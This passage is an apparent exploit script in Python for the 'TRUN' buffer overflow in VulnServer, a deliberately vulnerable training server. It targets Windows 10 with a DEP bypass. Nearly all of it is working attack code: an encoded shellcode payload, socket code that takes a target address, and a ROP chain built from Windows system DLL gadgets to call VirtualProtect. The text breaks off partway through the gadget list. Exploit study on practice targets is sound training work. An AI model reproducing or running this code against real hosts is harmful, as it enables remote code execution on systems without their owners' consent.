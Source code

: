 ```python
#!/usr/bin/env python
"""
Description: VulnServer "TRUN" Buffer Overflow w/ DEP Bypass (limited use-case)
Author: Cody Winkler
Contact: @cwinfosec (twitter)
Date: 12/18/2019
Tested On: Windows 10 x64 (wow64)

[+] Usage: python expoit.py <IP> <PORT>

$ python exploit.py 127.0.0.1 9999
"""

import socket
import struct
import sys

host = sys.argv[1]
port = int(sys.argv[2])

shellcode =  b""
shellcode += b"\xba\x80\x08\x48\x4a\xd9\xc6\xd9\x74\x24\xf4\x5d\x33"
shellcode += b"\xc9\xb1\x52\x31\x55\x12\x83\xc5\x04\x03\xd5\x06\xaa"
shellcode += b"\xbf\x29\xfe\xa8\x40\xd1\xff\xcc\xc9\x34\xce\xcc\xae"
shellcode += b"\x3d\x61\xfd\xa5\x13\x8e\x76\xeb\x87\x05\xfa\x24\xa8"
shellcode += b"\xae\xb1\x12\x87\x2f\xe9\x67\x86\xb3\xf0\xbb\x68\x8d"
shellcode += b"\x3a\xce\x69\xca\x27\x23\x3b\x83\x2c\x96\xab\xa0\x79"
shellcode += b"\x2b\x40\xfa\x6c\x2b\xb5\x4b\x8e\x1a\x68\xc7\xc9\xbc"
shellcode += b"\x8b\x04\x62\xf5\x93\x49\x4f\x4f\x28\xb9\x3b\x4e\xf8"
shellcode += b"\xf3\xc4\xfd\xc5\x3b\x37\xff\x02\xfb\xa8\x8a\x7a\xff"
shellcode += b"\x55\x8d\xb9\x7d\x82\x18\x59\x25\x41\xba\x85\xd7\x86"
shellcode += b"\x5d\x4e\xdb\x63\x29\x08\xf8\x72\xfe\x23\x04\xfe\x01"
shellcode += b"\xe3\x8c\x44\x26\x27\xd4\x1f\x47\x7e\xb0\xce\x78\x60"
shellcode += b"\x1b\xae\xdc\xeb\xb6\xbb\x6c\xb6\xde\x08\x5d\x48\x1f"
shellcode += b"\x07\xd6\x3b\x2d\x88\x4c\xd3\x1d\x41\x4b\x24\x61\x78"
shellcode += b"\x2b\xba\x9c\x83\x4c\x93\x5a\xd7\x1c\x8b\x4b\x58\xf7"
shellcode += b"\x4b\x73\x8d\x58\x1b\xdb\x7e\x19\xcb\x9b\x2e\xf1\x01"
shellcode += b"\x14\x10\xe1\x2a\xfe\x39\x88\xd1\x69\x4c\x47\xd3\x79"
shellcode += b"\x38\x55\xe3\x68\xe4\xd0\x05\xe0\x04\xb5\x9e\x9d\xbd"
shellcode += b"\x9c\x54\x3f\x41\x0b\x11\x7f\xc9\xb8\xe6\xce\x3a\xb4"
shellcode += b"\xf4\xa7\xca\x83\xa6\x6e\xd4\x39\xce\xed\x47\xa6\x0e"
shellcode += b"\x7b\x74\x71\x59\x2c\x4a\x88\x0f\xc0\xf5\x22\x2d\x19"
shellcode += b"\x63\x0c\xf5\xc6\x50\x93\xf4\x8b\xed\xb7\xe6\x55\xed"
shellcode += b"\xf3\x52\x0a\xb8\xad\x0c\xec\x12\x1c\xe6\xa6\xc9\xf6"
shellcode += b"\x6e\x3e\x22\xc9\xe8\x3f\x6f\xbf\x14\xf1\xc6\x86\x2b"
shellcode += b"\x3e\x8f\x0e\x54\x22\x2f\xf0\x8f\xe6\x5f\xbb\x8d\x4f"
shellcode += b"\xc8\x62\x44\xd2\x95\x94\xb3\x11\xa0\x16\x31\xea\x57"
shellcode += b"\x06\x30\xef\x1c\x80\xa9\x9d\x0d\x65\xcd\x32\x2d\xac"

def create_rop_chain():

    # rop chain generated with mona.py - www.corelan.be
    rop_gadgets = [
      0x759e4002,  # POP EAX # RETN [sechost.dll] ** REBASED ** ASLR 
      0x76e4d030,  # ptr to &VirtualProtect() [IAT bcryptPrimitives.dll] ** REBASED ** ASLR
      0x74d98632,  # MOV EAX,DWORD PTR DS:[EAX] # RETN [KERNEL32.DLL] ** REBASED ** ASLR 
      0x7610a564,  # XCHG EAX,ESI # RETN [RPCRT4.dll] ** REBASED ** ASLR 
      0x747b48ed,  # POP EBP # RETN [msvcrt.dll] ** REBASED ** ASLR 
      0x748991c5,  # & call esp [KERNELBASE.dll] ** REBASED ** ASLR
      0x74801c67,  # POP EAX # RETN [msvcrt.dll] ** REBASED ** ASLR 
      0xfffffdff,  # Value to negate, will become 0x00000201
      0x74d9976f,  # NEG EAX # RETN [KERNEL32.DLL] ** REBASED ** ASLR 
      0x74d925da,  # XCHG EAX,EBX # RETN [KERNEL32.DLL] ** REBASED ** ASLR 
```
